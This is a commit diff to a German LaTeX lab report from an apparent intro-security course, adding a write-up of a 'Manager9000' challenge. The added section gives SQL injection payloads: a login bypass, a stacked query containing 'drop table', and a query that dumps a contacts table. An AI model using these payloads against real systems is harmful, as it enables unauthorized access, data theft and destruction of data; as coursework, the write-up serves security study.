

Before and after one commit to BeerLoverAUT/IntroSec18, a LaTeX document (protokoll.tex): part of page 4 of 6 before the commit and two parts of pages 4 and 5 of 6 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Manager9000

```diff
--- a/protokoll.tex
+++ b/protokoll.tex
@@ -144,6 +144,21 @@ Hinter dem Bild ist ein zweites wesentlich kleineres Bild gespeichert, mit der Z
 $08:58:87$
 
 
+\section{Manager9000}
+
+\subsection{Schwachstelle finden}
+Die Seite ist SQL Injection gefährdet. Mit dem Eingabedaten $' OR '1'='1' --$ in Nickname und Passwort kann fälschlicherweise eingeloggt werden.
+
+\subsection{Wer schürft am meisten?}
+Mittels $' OR '1'='1' );  drop table id$  kann die gesamte Liste der Miner ausgegeben werden, da bei Syntaxfehlern der ausgeführte SQL-Code ausgegeben wird, kann hier einfach die Eingabe angepasst werden. Nun muss nur noch der/die stärkste/er herausgesucht werden.
+
+\subsection{Mein Wallet}
+
+SELECT id, name, phone, country, city, street, number FROM contacts WHERE (name LIKE '\%
+'OR '1'='1' ); SELECT id, name, phone, country, city, street, number FROM contacts ORDER BY name ;
+('
+\%' )
+
 \section{Beispiele}
 
 \subsection{Source Code formatieren}
```
Also changed, not shown: protokoll.pdf, 5 other files.
